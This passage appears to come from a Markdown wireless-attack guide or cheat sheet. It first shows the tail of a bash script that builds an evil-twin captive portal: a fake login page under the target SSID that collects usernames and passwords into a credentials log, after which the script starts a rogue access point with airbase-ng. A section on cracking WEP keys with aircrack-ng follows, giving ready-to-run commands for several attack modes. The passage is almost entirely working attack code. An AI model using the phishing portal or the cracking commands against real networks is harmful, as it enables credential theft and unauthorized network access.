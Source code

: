 ```bash
        <h2>$TARGET_SSID</h2>
        <p>Please enter your credentials to access the internet</p>
        <form method="post" action="/login">
            <input type="text" name="username" placeholder="Username" required>
            <input type="password" name="password" placeholder="Password" required>
            <button type="submit">Connect</button>
        </form>
    </div>
</body>
</html>
EOF

echo "[*] Starting evil twin for SSID: $TARGET_SSID"
echo "[*] Portal directory: $PORTAL_DIR"
echo "[*] Credentials will be logged to: $PORTAL_DIR/credentials.log"

# Start fake AP
sudo airbase-ng -e "$TARGET_SSID" -c 6 "$INTERFACE"
```

---

## Password Cracking

### WEP Key Recovery

WEP uses weak encryption that can be broken with sufficient initialization vectors (IVs).

#### Basic WEP Cracking

```bash
# Crack WEP with default settings
aircrack-ng capture-01.cap

# Specify key length (if known)
aircrack-ng -n 64 capture-01.cap   # 64-bit WEP (40-bit key + 24-bit IV)
aircrack-ng -n 128 capture-01.cap  # 128-bit WEP (104-bit key + 24-bit IV)

# Use multiple capture files
aircrack-ng capture*.cap

# Show statistics and progress
aircrack-ng -S capture-01.cap
```

#### Advanced WEP Cracking

```bash
# Use specific attack methods
aircrack-ng -K 1 capture-01.cap  # Korek attack only
aircrack-ng -K 2 capture-01.cap  # PTW attack only

# Specify BSSID if multiple networks in capture
aircrack-ng -b AA:BB:CC:DD:EE:FF capture-01.cap

# Use custom wordlist for passphrase-based WEP
aircrack-ng -w wordlist.txt capture-01.cap

# Debug mode for troubleshooting
aircrack-ng -d 3 capture-01.cap
```
